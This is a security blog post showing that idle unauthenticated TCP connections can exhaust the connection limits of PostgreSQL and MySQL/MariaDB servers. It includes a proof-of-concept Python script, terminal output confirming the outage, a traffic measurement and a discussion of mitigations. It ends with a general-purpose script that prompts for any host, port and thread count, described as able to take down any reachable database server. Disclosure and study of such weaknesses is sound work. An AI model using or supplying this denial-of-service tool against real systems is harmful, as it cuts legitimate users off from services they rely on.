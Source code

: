 ```yaml
---
layout: post
title: "How to DoS MySQL/MariaDB and PostgresSQL Servers With Fewer Than 55kb of Data"
author: "Joshua Rogers"
categories: security
---
```


At the heart of any Denial of Service (DoS) attack, there are two variables: a resource, and the limit of which that resource can grow to: network bandwidth, processing power, connection limits, and so on.
Traditionally, in any successful DoS attack an attacker needs to use of at least the same resource for which they are attacking.
For example, if you're performing a DoS attack on a server with a 10GbE uplink, an attacker will need attack with 10Gb/s of resources to exhaust the resources of the uplink.

That's why I was surprised to discover that it's incredibly easy to DoS MySQL/MariaDB and PostgresSQL servers with very few resources. In this case, the resource that can be exhausted is the number of connections to the database itself.

---

I was recently reading the documentation for PostgresSQL. Specifically, the _max_connections_ attribute: _max_connections (integer)_: _Determines the maximum number of concurrent connections to the database server. The default is typically 100 connections, but might be less if your kernel settings will not support it (as determined during initdb). This parameter can only be set at server start._

It made me wonder: is it possible to open 100 connections to a PostgresSQL database and let it idle, denying service to legitimate connections of the database? As it turns out, yes, and __even without credentials to access any database__: as long as the SQL server is reachable and it can receive our TCP packets, we can easily deny access to it for legitimate users.

---

I made a quick script to open 100 connections to a local PostgresSQL server:

```python
import socket
import struct
import concurrent.futures

host = '127.0.0.1'
port = 5432

def postgres_connect(host, port):
    while True:
        try:
            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
                sock.connect((host, port))

                startup_message = b'\x00\x03\x00\x00user\x001\x00database\x001\x00\x00'
                message_length = len(startup_message) + 4
                message_length_bytes = struct.pack('!I', message_length)
                sock.sendall(message_length_bytes + startup_message)

                while True:
                    sock.recv(1)

        except Exception as e:
            print(e)

if __name__ == "__main__":
    with concurrent.futures.ThreadPoolExecutor(max_workers=100) as executor:
        futures = [executor.submit(postgres_connect, host, port) for _ in range(100)]

        for future in concurrent.futures.as_completed(futures):
            pass
```

and then tested whether I could connect:
```bash
# python3 py.py  &
[1] 1611
# psql -U user -ww -h 127.0.0.1 -d database
psql: error: connection to server at "127.0.0.1", port 5432 failed: FATAL:  sorry, too many clients already
connection to server at "127.0.0.1", port 5432 failed: FATAL:  sorry, too many clients already
```

So despite not having any authentication data for the server, we can still DoS it.

---

How much data does this consume in total?
```
# tcpdump -i any -s 0 -w captured_traffic.pcap 'port 5432'
tcpdump: listening on any, link-type LINUX_SLL (Linux cooked), capture size 262144 bytes
^C700 packets captured
1400 packets received by filter
0 packets dropped by kernel
# tshark -r captured_traffic.pcap -Y "tcp.port == 5432" -T fields -e frame.len | awk '{ sum += $1 } END { print "Total data transferred:", sum / 1024, "KB" }'
Total data transferred: 53.0273 KB
```


So with just 53KB of data, we can totally exhaust PostgresSQL's connection limit. This isn't a rate of data exchange either, as the connection only needs to be left open: data does not need to be sent or received.

---

I ended up testing MySQL/MariaDB too, and as it turns, we can DoS those servers quite easily as well. A [bug report from 2006](https://bugs.mysql.com/bug.php?id=16227) outlines the same issue, but it remains "unfixed". But is it really a bug? That's an open question.

---

In some cases, there can be either a (legitimate or not) reason to have an SQL server accessible either via the internet or within some private network which may contain illegitimate users. Data in a database doesn't always have to be private, and may be publicly accessible. So how can we stop this attack? Well it's seemingly quite difficult.

We could raise the _max_connections_ limit, but then an attacker can just open more connections. We could use stateful firewalling like Linux's iptables to rate-limit connections, but then an attacker could perform a spoofed syn-flood from a single server [which could overflow the conntrack table](https://blog.cloudflare.com/conntrack-tales-one-thousand-and-one-flows/). Some middleware like pgbouncer or pgpool could also be effective, but then who knows whether we would just exhaust the [connection limit for those softwares](https://www.pgbouncer.org/config.html#max_client_conn).

One might be able to hack away at the source of MySQL/MariaDB or PostgresSQL and not count unauthenticated requests in the _max_connections_ count, but then we might just be able to exhaust the open file descriptor limits. On my system, MariaDB has both soft and hard limits of 32768 ([which is configurable](https://dev.mysql.com/doc/refman/8.0/en/mysqld-safe.html#option_mysqld_safe_open-files-limit)). :
```
# sudo systemctl show mariadb | grep LimitNOFILE
LimitNOFILE=32768
LimitNOFILESoft=32768
```

On my system with PostgresSQL, the soft and hard limits are 1024 and 4096 respectively via ulimit. In reality, this limit is 1000 by default, as [the postgres daemon has an option](https://www.postgresql.org/docs/current/runtime-config-resource.html#GUC-MAX-FILES-PER-PROCESS) to ensure the soft limit won't be reached.
```
# cat /proc/$(ps ax | grep '/[p]ostgres' | awk '{print $1}')/limits | grep 'Max open files'
Max open files            1024                 4096                 files
# grep -nrI 'max_files_per_process' /etc/postgresql
/etc/postgresql/15/main/postgresql.conf:166:#max_files_per_process = 1000		# min 64
```

All of these limits can easily be exhausted.


All in all, I don't have much of a solution here. Monitoring and proactively DROPing any addresses which have too many connections open might be an option, but it's certainly not a good one.


---

I also made a short script which can take down any reachable MySQL/MariaDB and PostgresSQL server:

```python
import socket
import struct
import concurrent.futures

def postgres_connect(host, port):
    while True:
        try:
            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
                sock.connect((host, port))

                startup_message = b'\x00\x03\x00\x00user\x001\x00database\x001\x00\x00'
                message_length = len(startup_message) + 4
                message_length_bytes = struct.pack('!I', message_length)
                sock.sendall(message_length_bytes + startup_message)

                while True:
                    sock.recv(1)

        except Exception as e:
            print(e)

def mysql_connect(host, port):
    while True:
        try:
            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
                sock.connect((host, port))
                while True:
                    sock.recv(1)

        except Exception as e:
            print(e)

if __name__ == "__main__":
    host = input("Enter the server host: ")
    port = int(input("Enter the server port: "))
    num_threads = int(input("Enter the number of threads: "))
    function_choice = input("Enter 'postgres' or 'mysql' to select the function to run: ")

    with concurrent.futures.ThreadPoolExecutor(max_workers=num_threads) as executor:
        if function_choice == 'postgres':
            futures = [executor.submit(postgres_connect, host, port) for _ in range(num_threads)]
        elif function_choice == 'mysql':
            futures = [executor.submit(mysql_connect, host, port) for _ in range(num_threads)]
        else:
            print("Invalid function choice. Please enter 'postgres' or 'mysql'.")

        # Wait for all threads to finish
        for future in concurrent.futures.as_completed(futures):
            pass
```

